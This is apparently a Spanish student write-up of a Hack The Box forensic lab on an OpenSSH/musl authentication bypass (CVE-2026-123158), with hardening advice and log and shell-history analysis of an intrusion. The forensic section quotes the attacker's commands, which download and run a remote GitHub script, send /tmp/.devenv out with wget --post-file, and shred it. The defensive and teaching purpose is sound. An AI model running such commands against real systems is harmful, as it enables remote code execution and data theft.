# Análisis de Vulnerabilidad *sshole* (CVE-2026-123158) y Resolución Forense — Sherlock: SSHole

**Rol:** Analista SOC / DFIR

**Plataforma:** Hack The Box (Sherlock: *SSHole*)

## Parte 1: Desarrollo de Preguntas Teóricas

### 1. Arquitectura y Dependencias

> **Pregunta:** ¿Qué combinación específica de componentes a nivel de sistema operativo y servicios de red (`libc`, gestor de autenticación y demonio SSH) es estrictamente necesaria para que un entorno sea vulnerable a *sshole*, y por qué los sistemas tradicionales basados en `glibc` con soporte PAM están exentos de este fallo?

Para que un entorno sea vulnerable a **sshole** (`CVE-2026-123158`), debe cumplir estrictamente con la siguiente combinación de componentes a nivel de sistema operativo y servicios de red:

* **Librería estándar de C (`libc`):** El sistema operativo debe estar compilado sobre **musl libc** (característico de distribuciones ligeras como Alpine Linux utilizadas frecuentemente en contenedores).

* **Demonio SSH:** Una versión vulnerable de **OpenSSH** (`sshd`) compilada y enlazada dinámicamente contra `musl`.

* **Gestor de autenticación:** El servicio SSH debe ejecutarse **sin soporte PAM** (*Pluggable Authentication Modules*, es decir, `UsePAM no` o compilado sin la bandera `--with-pam`), delegando la verificación de credenciales directamente a la lectura de `/etc/shadow` y a la función `crypt()` de `musl`.

Por el contrario, los sistemas tradicionales basados en **glibc** (Debian, Ubuntu, RHEL) con soporte PAM están exentos por dos razones técnicas:

1. **Retorno de error en `glibc`:** Ante contraseñas inválidas o que exceden los límites permitidos, la función `crypt()` de `glibc` devuelve `NULL` o cadenas de fallo específicas (`*0` o `*1`), evitando cualquier coincidencia accidental con los caracteres de estado almacenados en `/etc/shadow`.

2. **Aislamiento mediante PAM:** Al delegar la autenticación a PAM (`UsePAM yes`), módulos como `pam_unix.so` inspeccionan explícitamente si una cuenta está bloqueada (`*` o `!`) antes de evaluar hashes y aplican controles estrictos sobre la longitud de las cadenas de entrada.

### 2. Mecánica de la Colisión

> **Pregunta:** Explique detalladamente cómo interactúan una contraseña de gran longitud, la gestión del salt criptográfico en OpenSSH y el manejo de errores de la función `crypt()` en `musl` para generar un falso positivo de autenticación.

La explotación ocurre debido a una falla lógica en la cadena de validación de credenciales cuando envío una contraseña superior a 256 caracteres hacia una cuenta sin contraseña asignada o bloqueada:

1. **Extracción del *salt* / hash almacenado:** Al intentar autenticarme con una cuenta sin contraseña asignada en Alpine Linux, `sshd` consulta `/etc/shadow`, extrae el marcador de cuenta bloqueada (`*`) y lo pasa como parámetro *salt* a la función `crypt(password, salt)`.

2. **Manejo de error en `musl crypt()`:** La implementación de `crypt()` en `musl libc` impone un límite interno de 256 caracteres para la contraseña en texto plano. Al recibir una cadena que supera este umbral, `musl` aborta el cálculo criptográfico y devuelve literalmente la cadena estandarizada `"*"` como código de error.

3. **Falso positivo en la comparación:** OpenSSH recibe el resultado de `crypt()` (`"*"`) y lo compara mediante `strcmp()` contra el hash almacenado originalmente en `/etc/shadow` (`"*"`). Al producirse una coincidencia exacta (`"*" == "*"`), `sshd` interpreta la validación como exitosa y concede acceso interactivo inmediato sin haber verificado ninguna contraseña real.

### 3. Mitigación y Endurecimiento

> **Pregunta:** Aparte de aplicar el parche oficial de actualización del paquete OpenSSH, mencione e instrumente al menos dos medidas de mitigación de defensa en profundidad a nivel de configuración que reduzcan drásticamente la superficie de exposición ante este vector de ataque.

Además de aplicar el parche oficial de actualización del paquete OpenSSH, implementé las siguientes medidas de defensa en profundidad en `/etc/ssh/sshd_config` para reducir drásticamente la superficie de exposición:

* **Deshabilitar por completo la autenticación por contraseña (`PasswordAuthentication no`):** Al restringir el acceso exclusivamente al uso de llaves criptográficas asimétricas (`PubkeyAuthentication yes`), se evita que el demonio SSH invoque las rutinas de lectura de `/etc/shadow` y la función `crypt()`.

  ```bash
  PasswordAuthentication no
  ChallengeResponseAuthentication no
  PubkeyAuthentication yes
  ```

* **Bloquear el acceso directo de `root` y definir listas blancas (`PermitRootLogin no` / `AllowUsers`):** Dado que las cuentas del sistema y de servicio suelen tener el marcador `*` en `/etc/shadow`, prohibir el inicio de sesión de `root` y limitar el acceso únicamente a usuarios explícitos impide explotar cuentas administrativas o de servicio.

  ```bash
  PermitRootLogin no
  AllowUsers adminsvc
  ```

## Parte 2: Actividad Práctica — Análisis Forense de Incidente (Reto Sherlock: *sshole*)

> **Consigna (4. Análisis Forense de Incidente):** Simulando el rol de analista SOC/DFIR ante una intrusión en un entorno contenerizado basada en esta vulnerabilidad, investiga los artefactos de registro proporcionados en el laboratorio forense tipo Sherlock (*sshole*) y agrega imágenes del resultado.

### 1. Triaje Inicial e Inventario de Evidencia

Tras descargar y extraer los artefactos del laboratorio forense **SSHole** en mi estación de análisis en Windows, realicé una inspección inicial de la estructura de directorios recuperada del contenedor comprometido (`dev-jumpbox`). Identifiqué las rutas críticas del sistema de archivos Linux: `etc`, `home`, `root` y `var`.



*Figura 1: Estructura raíz del sistema de archivos extraído del contenedor comprometido (`etc`, `home`, `root`, `var`).*

### 2. Verificación de la Arquitectura Vulnerable (`musl` + Cuentas Bloqueadas)

Para confirmar que el sistema cumplía con los requisitos arquitectónicos de `CVE-2026-123158`, ubiqué el archivo `/etc/os-release` dentro de la carpeta `etc` e inspeccioné su contenido. Confirmé que el entorno correspondía a una distribución **Alpine Linux** (compilada sobre `musl libc`).



*Figura 2: Ubicación del archivo de identificación del sistema operativo en `\etc\os-release`.*



*Figura 3: Contenido de `/etc/os-release` confirmando la distribución ligera basada en `musl libc`.*

Posteriormente, localicé el archivo `/etc/shadow` y utilicé PowerShell (`Get-Content .\shadow | Select-String ":\*:"`) para filtrar las cuentas que poseían el carácter `*` en el campo de contraseña, corroborando que la cuenta objetivo tenía el hash configurado con el marcador susceptible a la colisión.



*Figura 4: Localización del archivo `/etc/shadow` en los artefactos extraídos.*



*Figura 5: Filtrado en PowerShell (`Select-String ":\*:"`) sobre `shadow` confirmando las cuentas con marcador de bloqueo `*`.*

### 3. Detección del Bypass de Autenticación en los Registros SSH

Una vez confirmada la vulnerabilidad del entorno, navegué hacia `\var\log\` para inspeccionar el archivo `messages` (registro principal de syslog en Alpine Linux).



*Figura 6: Navegación hacia el directorio de registros del sistema (`\var\log`).*



*Figura 7: Identificación del archivo de logs `/var/log/messages`.*

Al analizar los eventos de `sshd-session` en `messages`, detecté la intrusión: el demonio SSH registró el evento `dev-jumpbox auth.info sshd-session ... Accepted password for` sin intentos fallidos previos, confirmando el bypass de autenticación mediante una contraseña superior a 256 caracteres.


*Figura 8: Registro en `/var/log/messages` evidenciando el inicio de sesión aceptado (`Accepted password`) en `dev-jumpbox` mediante la explotación de `sshole`.*

### 4. Reconstrucción de Actividad Post-Explotación y Exfiltración

Con el acceso inicial confirmado, ejecuté una búsqueda recursiva en PowerShell sobre todos los archivos de historial de comandos (`*history*`) y patrones de escaneo de red (`for .* in \{`) para rastrear los movimientos laterales del atacante.


*Figura 9: Búsqueda recursiva en PowerShell de historiales de shell (`-Include "*history*"`).*



*Figura 10: Hallazgo del comando de escaneo de red (Task 6) en el archivo `SSHole\home\adminsvc\.ash_history`.*

Navegué hacia el directorio del usuario comprometido (`\home\adminsvc\`) para inspeccionar todos los artefactos generados durante la sesión intrusiva, encontrando tanto el historial oculto `.ash_history` como el reporte de escaneo generado (`scanreport`).



*Figura 11: Acceso al directorio `\home` dentro de los artefactos.*


*Figura 12: Identificación del perfil de usuario afectado (`adminsvc`).*



*Figura 13: Artefactos descubiertos en `/home/adminsvc/`: directorio `.ssh`, `.ash_history` y el archivo `scanreport`.*

Finalmente, analicé el contenido completo de `/home/adminsvc/.ash_history`, reconstruyendo la secuencia exacta del ataque:

1. **Enumeración y escaneo interno:** Ejecución del bucle `for` para descubrir sistemas internos accesibles desde el *jumpbox*, guardando los resultados en `scanreport.txt`.

2. **Ejecución de payload remoto:** Descarga y ejecución directa en memoria del script malicioso desde GitHub (`bash <(wget -qO- https://raw.githubusercontent.com/papinyurii33/devscripts/refs/heads/main/setup.sh)`), el cual recopiló información sensible en `/tmp/.devenv`.

3. **Exfiltración y borrado de huellas:** Envío del archivo `/tmp/.devenv` hacia el servidor externo mediante `wget --post-file=/tmp/.devenv -O- <URI_EXFILTRACION>` (Task 7), seguido de su eliminación segura con `shred -u /tmp/.devenv` antes de cerrar la sesión (`exit`).



*Figura 14: Contenido de `/home/adminsvc/.ash_history` detallando el escaneo interno, la descarga del script `setup.sh`, la exfiltración de `/tmp/.devenv` mediante `wget --post-file` y el borrado de evidencia con `shred`.*

### 5. Resumen de Indicadores de Compromiso (IoCs)

| Indicador / Artefacto | Detalle Técnico | 
| :--- | :--- | 
| **Host Comprometido** | `dev-jumpbox` (Contenedor Alpine Linux / `musl libc`) | 
| **Vulnerabilidad Explotada** | `CVE-2026-123158` (*sshole* - Colisión de longitud en `crypt()`) | 
| **Cuenta Comprometida** | `adminsvc` (`/home/adminsvc/`) | 
| **Payload Secundario** | `https://raw.githubusercontent.com/papinyurii33/devscripts/refs/heads/main/setup.sh` | 
| **Archivo Staging / Exfiltrado** | `/tmp/.devenv` (exfiltrado vía HTTP POST con `wget --post-file` y eliminado con `shred -u`) | 